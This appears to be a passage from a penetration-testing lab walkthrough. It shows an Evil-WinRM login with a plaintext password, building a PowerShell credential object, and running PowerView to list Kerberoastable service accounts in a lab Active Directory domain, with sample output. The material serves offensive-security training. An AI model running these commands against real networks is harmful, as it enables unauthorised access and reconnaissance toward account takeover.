 
## 🛠️ **Workaround Solutions**

### **🔧 Workaround #1: PSCredential Object Method**

#### **Applicable Scenarios**
- **Evil-WinRM sessions**: Works perfectly with Linux attack hosts
- **Non-interactive sessions**: No GUI access required
- **Command-by-command basis**: Credentials passed with each PowerView command
- **Flexibility**: Can be used with any PowerShell cmdlet supporting `-Credential` parameter

#### **Implementation Steps**

**1. Establish WinRM Session:**
```bash
# From Linux attack host
evil-winrm -i 172.16.8.50 -u backupadm -p '!qazXSW@'
```

**2. Create PSCredential Object:**
```powershell
# Convert password to SecureString
$SecPassword = ConvertTo-SecureString '!qazXSW@' -AsPlainText -Force

# Create PSCredential object
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\backupadm', $SecPassword)
```

**3. Execute Commands with Credentials:**
```powershell
# Import PowerView
import-module .\PowerView.ps1

# Successful domain enumeration with credential object
get-domainuser -spn -credential $Cred | select samaccountname

# Expected Output:
samaccountname
--------------
azureconnect
backupjob
krbtgt
mssqlsvc
sqltest
sqlqa
sqldev
mssqladm
svc_sql
sqlprod
sapsso
sapvc
vmwarescvc
```
